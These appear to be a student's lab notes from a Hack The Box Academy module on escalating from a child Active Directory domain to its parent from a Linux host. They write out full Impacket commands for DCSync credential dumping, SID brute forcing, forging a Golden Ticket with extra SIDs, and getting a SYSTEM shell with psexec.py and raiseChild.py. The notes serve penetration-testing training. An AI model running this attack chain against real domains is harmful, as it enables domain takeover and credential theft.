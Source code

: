 We can also perform the attack shown in the previous section from a Linux attack host. **To do so, we'll still need to gather the same bits of information:**
- The **KRBTGT hash for the child domain**
- The **SID for the child domain**
- The **name of a target user in the child domain** (does not need to exist!)
- The **FQDN of the child domain**
- The **SID of the Enterprise Admins group** of the root domain

## Performing DCSync with secretsdump.py
- Once we have complete control of the child domain, `LOGISTICS.INLANEFREIGHT.LOCAL`, **we can use `secretsdump.py` to DCSync and grab the NTLM hash for the KRBTGT account.**

	- `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt`
	- ![[Pasted image 20250817054134.png]]

## Performing SID Brute Forcing using lookupsid.py
- Next, we can use **[lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) from the Impacket toolkit to perform SID brute forcing to find the SID of the child domain**. 
- In this command, **whatever we specify for the IP address** (the IP of the domain controller in the child domain) **will become the target domain for a SID lookup.**
- The tool will **give us back the SID for the domain and the RIDs for each user and group** that could be used to **create their SID in the format `DOMAIN_SID-RID`**
- For example, from the output below, **we can see that the SID of the `lab_adm` user would be `S-1-5-21-2806153819-209893948-922872689-1001`.**

	- `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 `
	- ![[Pasted image 20250817054400.png]]
## Grabbing the Domain SID & Attaching to Enterprise Admin's RID
- [Here](https://adsecurity.org/?p=1001) is a handy **list of well-known SIDs.**
- `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`
- ![[Pasted image 20250817054604 1.png]]

## Constructing a Golden Ticket using ticketer.py
- Next, we can **use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket.**
- This ticket will be **valid to access resources in the child domain (specified by `-domain-sid`)** and the **parent domain (specified by `-extra-sid`).**:

	- `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker`
	- ![[Pasted image 20250817054653.png]]

## Setting the KRB5CCNAME Environment Variable
- The ticket will be **saved down to our system as a [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file**, which is a file used to **hold Kerberos credentials.**
- **==Setting the `KRB5CCNAME` environment variable tells the system to use this file for Kerberos authentication attempts.==**
- `export KRB5CCNAME=hacker.ccache`

## Getting a SYSTEM shell using Impacket's psexec.py
- `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5`

- Impacket **also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain**. 
- We need to **specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest.**

## Performing the Attack with raiseChild.py
- `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm`

- Though **tools such as `raiseChild.py` can be handy and save us time**, it is essential to **understand the process and be able to perform the more manual version** by gathering all of the required data points.
- Other t**ools exist which can take in data from a tool such as BloodHound, identify attack paths, and perform an "autopwn" function** that can attempt to perform **each action in an attack chain to elevate us to Domain Admin (such as a long ACL attack path).**
  
	- `We don't want to tell the client that something broke because we used an "autopwn" script!`

# LABS
---
- Everything is same, to dump use:
	- `secretsdump.py logistics.inlanefreight.local/hacker@academy-ea-dc01.inlanefreight.local -just-dc-user bross -no-pass -k`
	- ![[Pasted image 20250817060500.png]]